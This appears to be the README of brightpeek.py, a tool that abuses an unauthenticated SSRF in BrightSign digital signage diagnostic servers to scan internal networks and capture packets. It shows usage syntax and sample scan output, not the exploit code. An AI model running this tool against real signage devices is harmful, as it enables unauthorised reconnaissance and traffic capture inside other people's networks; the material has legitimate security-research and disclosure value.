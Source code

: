 ### Enumerate network hosts through BrightSign unauthenticated SSRF

[BrightSign Digital Signage Diagnostic Web Server 8.2.26 - Server-Side Request Forgery (Unauthenticated)](https://www.exploit-db.com/exploits/48843)

Usage:
```
./brightpeek.py DEVICE_ADDRESS:DEVICE_PORT_NUMBER --pcap FILE_LOCATION

Optional:
    --pcap FILE_LOCATION         Use Network Diagnostics packet capture and store PCAP locally to LOCATION
                            (Default location /tmp/capture.pcap)
```

Example output:
```
External:           xxx.xxx.xxx.xxx:12345
Internal IP:        192.168.73.93
Internal Network:   192.168.73.0/24
Scanning (this may take a while)...
Hit: 192.168.73.10:1337 <-> Speed test failed on URL '192.168.73.10:1337', Reason: 'Failed to connect to 192.168.73.10 port 1337: Connection refused'<br>

Ctrl-C pressed, exiting.
Hosts located in scan:
192.168.73.10
Done.
```
